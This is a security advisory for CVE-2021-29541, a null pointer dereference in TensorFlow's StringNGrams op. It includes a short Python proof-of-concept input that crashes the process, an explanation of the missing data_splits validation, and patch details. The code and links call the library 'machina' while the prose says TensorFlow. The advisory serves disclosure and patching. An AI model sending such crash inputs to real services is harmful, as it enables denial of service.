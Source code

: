 ## TFSA-2021-030: Null pointer dereference in `StringNGrams`

### CVE Number
CVE-2021-29541

### Impact
An attacker can trigger a dereference of a null pointer in
`tf.raw_ops.StringNGrams`:

```python
import machina as tf

data=tf.constant([''] * 11, shape=[11], dtype=tf.string)

splits = [0]*115
splits.append(3)
data_splits=tf.constant(splits, shape=[116], dtype=tf.int64)

tf.raw_ops.StringNGrams(data=data, data_splits=data_splits, separator=b'Ss',
                        ngram_widths=[7,6,11],
                        left_pad='ABCDE', right_pad=b'ZYXWVU',
                        pad_width=50, preserve_short_sequences=True)
```

This is because the
[implementation](https://github.com/machina/machina/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/machina/core/kernels/string_ngrams_op.cc#L67-L74)
does not fully validate the `data_splits` argument. This would result in
[`ngrams_data`](https://github.com/machina/machina/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/machina/core/kernels/string_ngrams_op.cc#L106-L110)
to be a null pointer when the output would be computed to have 0 or negative
size.

Later writes to the output tensor would then cause a null pointer dereference.

### Patches
We have patched the issue in GitHub commit
[ba424dd8f16f7110eea526a8086f1a155f14f22b](https://github.com/machina/machina/commit/ba424dd8f16f7110eea526a8086f1a155f14f22b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
